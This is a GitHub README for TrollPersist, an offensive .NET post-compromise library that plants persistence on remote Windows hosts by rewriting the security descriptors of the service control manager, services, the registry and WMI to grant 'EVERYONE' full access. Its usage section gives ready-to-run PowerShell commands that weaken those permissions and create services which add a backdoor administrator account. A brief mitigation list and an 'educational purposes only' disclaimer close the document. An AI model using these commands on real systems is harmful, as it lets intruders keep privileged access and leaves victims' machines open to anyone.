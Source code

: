 # TrollPersist
A Post-Compromise granular, fully reflective, simple and convenient .NET library to embed persistency to persistency by abusing Security Descriptors of remote machines. The techniques incorporated are not novel but I've yet to come across any documented approach of modifying SCM/Service's SDDL by directly modifying registry keys. WMI and Remote registry was also added in as an after thought.

# Compilation

1. Git clone / download project and open with visual studio
2. Rightclick the project -> add reference and add *System.Management* and add *System.Management.Instrumentation*
3. Compile as x64, Release\
\
*******No other dependencies*******

# Nomenclature
Methods are named according to **PROTOCOL_ACTION**\
so REG_ModifyRegistryPermissions\
means it uses the RemoteRegistry protocol to modify registry permissions..

# Caveats
1. The library checks the SDDL syntax but not the SDDL logic, so best to stick to example SDDL and just change the principal of the SDDL
2. As this is a Post-Compromise library, it assumes you are running with the relevant privileges and permissions already.
3. Library is focused for domain environments, but you can use it in workgroup with the relevant additional changes.


# library

**REG_ModifyRegistryPermissions(string hostname, string subkey, string principal, bool propogate)**
```
- subkey: must be like "SYSTEM\<key>" or "SYSTEM\<key>\<key>"
- principal: "EVERYONE", "Domain\User", etc
- propogate: if true, will set permissions to subkeys of the key
```

**REG_ModifyRegistryContainingSD(string type, string hostname, string SDDL, string key, string value)**
```
- type: "DCOM" or "SVC" or "SCM"
- SDDL: any legitimate SDDL string such as "(A;;KA;;;WD)" or "(A;;KA;;;S-1-1-0)"
- Key: key name, if type="SVC", the key must follow the format "SYSTEM\CurrentControlSet\Services\<SERVICENAME>\Security"
- value: value name
```

**WMI_ModifyWMISD(string hostname, string SDDL)**
```
- SDDL: Change the principal component of the SDDL string such as "(A;;CCDCRP;;;WD)" or "(A;;CCDCRP;;;S-1-1-0)" 
```

**REG_CreateRegKey(string hostname, string key, string value, object data, int REG_TYPE)**
```
- data: depending on REG_TYPE, you can pass string for string, int for Dword or byte[] for Binary
- REG_TYPE: String = 1, Binary = 3, DWord = 4
```

**SCM_CreateAndStart(string hostname, string servicename, string binarypath)**
```
- servicename: service to create 
- binarypath: binarypath in the for "c:\windows\..\example.exe" or "cmd /c blah blah blah"
```

**SVC_ModifyAndStart(string hostname, string servicename, string BinaryPathName)**
```
- servicename: service to create 
- binarypath: binarypath in the for "c:\windows\..\example.exe" or "cmd /c blah blah blah"
```


# Example Usage

## SCM SD, allow everyone  - Requires Reboot for services.exe to restart!!
```
#Modify SD to allow "EVERYONE" access to service control manager
[TrollPersist.SecurityDescriptor]::REG_ModifyRegistryContainingSD("SCM","Hostname","(A;;KA;;;WD)","SYSTEM\CurrentControlSet\Control\ServiceGroupOrder\Security", "Security")

#Set exemption for non-admin to access services. This sets for all services, you can use REG_CreateRegKey to set for specific service.
[TrollPersist.SecurityDescriptor]::REG_CreateRegKey("Hostname", "SYSTEM\CurrentControlSet\Control", "RemoteAccessExemption", 1, 4)

#After reboot - You must use the provided SCM_CreateAndStart() function. sc.exe will not work to start the service.
#Create and start service
[TrollPersist.SecurityDescriptor]::SCM_CreateAndStart("Hostname","troll","cmd /c net users /add troll Trolololol123 && net localgroup administrators /add troll")
```
## SVC SD, allow everyone  - Requires Reboot for services.exe to restart!! 
```
#Modify SD to allow "EVERYONE" access to specific service (eg.PlugPlay)
[TrollPersist.SecurityDescriptor]::REG_ModifyRegistryContainingSD("SVC","Hostname","(A;;KA;;;WD)","SYSTEM\CurrentControlSet\Services\PlugPlay\Security", "Security")

#Set exemption for non-admin to access services. This sets for all services, you can use REG_CreateRegKey to set for specific service.
[TrollPersist.SecurityDescriptor]::REG_CreateRegKey("Hostname", "SYSTEM\CurrentControlSet\Control", "RemoteAccessExemption", 1, 4)

#After reboot - You must use the provided SVC_ModifyAndStart() function. sc.exe will not work to start the service.
#Modify and start service
[TrollPersist.SecurityDescriptor]::SVC_ModifyAndStart("Hostname", "troll", "cmd /c net users /add troll Trolololol123 && net localgroup administrators /add troll")
```
## REG SD, allow everyone 
```
#Modify SD to allow "EVERYONE" access to remote registry service
[TrollPersist.SecurityDescriptor]::REG_ModifyRegistryPermissions("Hostname","SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg","EVERYONE",$false)

#Modify key to allow write  
[TrollPersist.SecurityDescriptor]::REG_ModifyRegistryPermissions("Hostname","SYSTEM\CurrentControlSet\Control","EVERYONE",$true)

#Alternatively, you can set it on "SYSTEM", which lets you create services, scheduled tasks just via registry keys (eg. GhostTask)
```
## WMI SD, allow everyone 
```
#Modify SD to allow "EVERYONE" access to WMI
[TrollPersist.SecurityDescriptor]::WMI_ModifyWMISD("Hostname","(A;;CCWP;;;WD)") 
[TrollPersist.SecurityDescriptor]::REG_ModifyRegistryContainingSD("DCOM","Hostname","(A;;CCDCRP;;;WD)","software\microsoft\ole", "MachineLaunchRestriction")

#Can use any wmi tool to connect (eg. SharpWMI)
```

# Blue Team and Mitigations
1. GPO! GPO! GPO! ENFORCE VIA GPO!
2. Monitor Registry Changes for the ones mentioned ^
3. Monitor SERVICE CREATION / STOP / START
4. Firewall off unneeded protocols

# Wishlist / Upgrades - which i will not be pursuing
1. Add features for PSRemoting, ScheduledTask and yada yada
2. REG_ uses RemoteRegistry, you can incporate WMI to perform registry actions as well to make WMI_ModifyRegistryPermissions

# Disclaimer
For educational purposes only!

# Credits / References
- https://www.c-sharpcorner.com/UploadFile/puranindia/windows-management-instrumentation-in-C-Sharp/
- https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/
- https://gist.github.com/pich4ya/c15af736f0f494c1a560e6c837d77828 
- https://learn.microsoft.com/en-us/windows/win32/wmisdk/changing-access-security-on-securable-objects
- https://unlockpowershell.wordpress.com/2009/11/20/script-remote-dcom-wmi-access-for-a-domain-user/
- https://albertherd.com/2017/10/19/code-never-lies-documentation-sometimes-do/
- https://github.com/Mr-Un1k0d3r/SCShell/blob/master/SharpSCShell.cs
- https://www.experts-exchange.com/questions/27096211/VB-net-set-registry-key-remotely.html
- https://raw.githubusercontent.com/samratashok/RACE/master/RACE.ps1
- https://stackoverflow.com/questions/6851961/using-regsetkeysecurity-to-avoid-registry-redirection
- https://forums.powershell.org/t/unable-to-set-acl-on-remote-registry-kindly-help/7078/5
- https://posts.specterops.io/remote-hash-extraction-on-demand-via-host-security-descriptor-modification-2cf505ec5c40
- https://woshub.com/set-permissions-on-windows-service/
- https://support.microsoft.com/en-us/topic/block-remote-callers-who-are-not-local-administrators-from-starting-stopping-services-c5f77f8e-09e6-57e6-72d1-2c4423627a24
- https://vbscrub.com/2020/06/02/windows-createservice-api-bypasses-service-permissions/
- https://github.com/VbScrub/ServiceInstallerTest/blob/master/Program.vb
- https://stackoverflow.com/questions/2732126/deletesubkey-unauthorizedaccessexception
- https://stackoverflow.com/questions/28739477/accessing-a-remote-registry-with-local-credentials-of-the-remote-machine-on-th
- https://www.rhyous.com/2011/08/07/how-to-authenticate-and-access-the-registry-remotely-using-c/




